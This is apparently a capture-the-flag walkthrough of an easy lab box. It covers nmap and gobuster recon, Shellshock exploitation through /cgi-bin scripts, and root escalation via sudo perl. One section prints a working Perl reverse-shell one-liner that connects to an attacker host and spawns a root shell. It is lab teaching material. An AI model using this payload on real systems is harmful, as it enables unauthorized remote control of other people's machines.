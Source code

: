 ```yaml
---
layout: post
title: Options
---
```


# **Recon**

`nmap` routine shows 2 TCP ports open on the target

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094035274/c913388e-a8d8-40b3-af52-2428eaa47c3b.png align="center")

directory enumeration on the Apache server is performed via `gobuster`

> Different wordlists may impact enumeration results

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094170011/98440997-56ad-4a85-affb-ab967b6c23ed.png align="center")

> `/cgi-bin` directory was discovered however the directory itself is not accessible (error code 403)

while we get a `403` trying to access `/cgi-bin` we could do a further dirbust to see if subsequent directories can be accessed

> always enumerate harder

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094267335/d9239033-d3a2-4956-a592-2088a5ce4f9a.png align="left")

> gobuster `-x` allows appending of file types, in this case according to the hints `/cgi-bin` is where apache stores scripts (`.pl, .sh` etc.) ref: [cgi enum wordlist](https://github.com/orwagodfather/WordList/blob/main/cgi-bin.txt) for more possible scripts that can be found

# Exploit

we notice that the Apache server is running an older version during recon phase, also given we find `.sh` shell scripts, we piece together two main keywords "apache" "shell script" to find the [CVE](https://www.exploit-db.com/exploits/34900) "Shellshock"

to test whether certain exploits are applicable we can first attempt to test our hypothesis using `nmap` scripts

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094289067/9b6d360f-308e-4739-aeeb-98631bf6854f.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094294056/cf79f0d1-554f-4da4-ac39-03e5cdd1f9ca.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094298992/86a826fc-8045-42d9-bdc4-1a32413e7009.png align="left")

knowing the server is indeed vulnerable, we can try to run to exploit to gain foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094315245/6b8f3624-178d-43b9-b516-fc9f41fe0576.png align="left")

> some errors were caught and after some "try hardering" it was related to the exploit being written in python2

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094380361/6aea2aab-9941-4035-b33f-e9a5cabbf052.png align="left")

after successfully configuring the payload, we can access the user flag

# Priv Esc

due to the box being an easy one, this process is very much a low-hanging fruit

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094436484/b9e595fa-710c-49af-8dc1-45d94c88dcbc.png align="center")

a quick GTFObins tour and we can successfully escalate to root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094449118/924b1f2e-e697-4afa-853b-4455d70e233a.png align="left")

## Alternative method

```bash
sudo perl -e 'use Socket;$i="$LHOST";$p=$LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> this method spawns a reverse shell on your attacking machine instead

# Notes

> credits: ippsec [walkthrough](https://www.youtube.com/watch?v=IBlTdguhgfY)

* ## SSH, Apache version enumeration
    
    * crossref package version [site](https://packages.ubuntu.com) against different distro to enumerate which distro is being run
        
    * version last updated date = likely when the system was last updated 
        
* ## HTTP response `Content-Type`
    
    when accessing discovered scripts change the type to `text/plain` so the browser can display the content of the script. in the case where the browser cannot understand the extension, the content will not be displayed when visiting the site #http\_content-type
    
* ## HTTP/web-related `nmap` NSE script debugging
    
    in the case of `nmap` scripts failing, use burp proxy listener:
    
    * bind `localhost:8081` to `$target:$target_port` and `nmap` the `localhost`
        
    * start intercepting and debug the HTTP requests `nmap` sends
        
    * modify nse script accordingly #nmap
        
    
* ## RFC shenanigans
    
    * `nmap` shellshock scripts fail to list `cmd` response due to [RFC standards](https://www.rfc-editor.org/rfc/rfc9110.html): RFC HTTP response standards consist of `\r\n` delimiter between header and body
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094558051/75af4457-eead-42bd-b0d7-ceed686d610e.png align="left")
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094567545/d4c2a9c0-35bf-4f2c-b12b-e45f865485a5.png align="left")
        
        > `echo;` inserts a new line in the response, separating the header from the body (`ls` result) `/bin/ls` is used as `ls` returns negative results (alias/PATH not set)
